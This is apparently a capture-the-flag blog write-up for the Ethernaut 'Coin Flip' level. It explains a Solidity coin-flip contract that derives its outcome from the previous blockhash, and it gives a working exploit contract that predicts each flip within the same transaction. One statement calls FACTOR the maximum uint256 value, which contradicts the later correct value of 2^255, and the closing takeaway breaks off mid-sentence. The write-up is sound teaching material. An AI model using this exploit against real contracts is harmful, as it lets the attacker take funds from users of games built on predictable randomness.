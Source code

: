 +++
date = '2024-10-23T00:57:29+05:30'
draft = false
title = 'Coin Flip'
categories=["Blockchain"]
series="Ethernaut"
tags=["Predictable Randomness","Randomness Manipulation"]
+++

# Writeup for CoinFlip

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity well. For each challenge, they will deploy the contract and provide us with the instance of that contract. Our task is to interact with the contract and exploit it. Don't worry if you are completely new to Solidity and have never deployed a smart contract before. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level, you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### Contract Explanation

{{< collapsible "Click to view source contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

```

{{< /collapsible>}}

- If you feel like you understood the contract you can move to the [exploit](#exploit) part. If you are a begineer please go through contract Explaination also. It will help you to understand the solidity better.

- The contract has three state variables: `uint256 consecutiveWins`, `uint256 lastHash`, and `uint256 FACTOR`. The `consecutiveWins` variable will be updated after every successful flip. The `lastHash` variable will be updated after every flip, and the `FACTOR` variable is initialized to 57896044618658097711785492504343953926634992332820282019728792003956564819968, which is the maximum value of `uint256`. It is used to calculate the `coinFlip` value.

```solidity
constructor() {
    consecutiveWins = 0;
}
```

- The above code snippet is a constructor that initializes the `consecutiveWins` variable to zero. The constructor is automatically called during the deployment of the contract.

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

- The `flip()` function is a public function that takes a boolean parameter `guess` as input and returns `true` if the flip is successful, otherwise it will return `false`.

- First, it initializes the `blockValue` to the blockhash of the previous block. They are using the previous blockhash because the blockhash of the current block cannot be determined until it is mined or validated. `block.number` returns the current block number. By subtracting 1 from the current block number, they get the hash value of the previous block.

- Then, the function checks if the `lastHash` is equal to `blockValue` or not. The `lastHash` is updated after each flip, regardless of success or failure.

- After that check, it updates the `lastHash` value to `blockValue`. This ensures that `flip()` can only be called once in a block. If we call `flip()` with some value and then call it again within the same block, it will revert because the `lastHash` is already updated to `blockValue`. Since `blockValue` is the same in both calls and `lastHash` will match exactly with the `blockValue` set in the first call, it will revert.

- Next, the function calculates the `coinFlip` value by dividing `blockValue` by `FACTOR`. `FACTOR` is a `uint256` initialized with 2^255, which is 32 bytes. Since the `blockhash` is also 32 bytes, when divided by `FACTOR`, it will return either 0 or 1.

- Then, the function initializes the `side` variable to `true` if `coinFlip` is 1, otherwise it is initialized to `false`.

- Finally, it checks if the value of `side` is equal to `guess`. If they are the same, `consecutiveWins` is incremented by 1 and the function returns `true`. If they are not the same, `consecutiveWins` is set to 0 and the function returns `false`.

### Exploit

- By examining the contract, it becomes apparent that the value of `side` is primarily determined by `blockValue`. If we can somehow obtain the `blockValue` before calling the function, we can easily calculate the guess value and pass it as an argument to the `flip()` function.

- When interacting with a smart contract, our interactions are conducted through transactions. Calling a function that modifies the state of a deployed contract is considered a transaction. Changing the state involves altering the values of state variables.

- In the Ethereum Virtual Machine (EVM), if we call a function of a smart contract that in turn calls another contract's function, both calls will be broadcasted to the Ethereum network as a single transaction and will be mined in the same block.

- Based on this understanding, we can conclude that we can calculate the guess value before calling the `flip()` function and then pass it as an argument to the function.

- In this challenge, we do not interact with the contract using the console. Instead, we need to write an Exploit contract and deploy and interact with it using Remix, an online Solidity IDE.

- If you are unfamiliar with Remix, you can refer to this video tutorial: [Remix Tutorial](https://www.youtube.com/watch?v=WmeWbo7wzGI).

- Here is an example of an exploit contract:

```solidity
function exploit() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool guess = coinFlip == 1 ? true : false;
    bool success = CoinFlip.flip(guess);
    require(success, "Exploit failed");
}
```

- As mentioned earlier, we calculate the `blockValue` and `coinFlip` values in the same way as the `flip()` function in the CoinFlip contract.

- Once the guess value is calculated, we call the `flip()` function of the CoinFlip contract with the guess value. Since the `exploit()` function calls the `flip()` function, both calls will be broadcasted as a single transaction, ensuring that the `blockValue` remains the same and the `flip()` function succeeds.

- If the `flip()` function fails, our exploit function call will be reverted. However, if our exploit contract is implemented correctly, no reverts will occur.

- To achieve 10 consecutive wins, we need to call the `exploit()` function 10 times to pass the level.

{{< collapsible "Click to view Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {CoinFlip} from "../src/contracts/CoinFlip.sol";

contract ExploitCoinFlip {
CoinFlip coinflip;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr) {
        coinflip = CoinFlip(_addr);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        bool a = coinflip.flip(guess);
        require(a, "Exploit failed");
    }

}
```

{{< /collapsible >}}

- In Remix, during deployment, we need to provide the address of the `CoinFlip` contract as an argument to the constructor of the exploit contract.

- Once the 10 calls are completed, submit the level instance.

### Key Takeaways

- When interacting with a smart contract, multiple function calls within a single transaction are broadcasted and mined together. This ensures that all changes are applied at once or none at all. This is important for exploiting the CoinFlip contract because it allows us to predict the blockValue and make.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
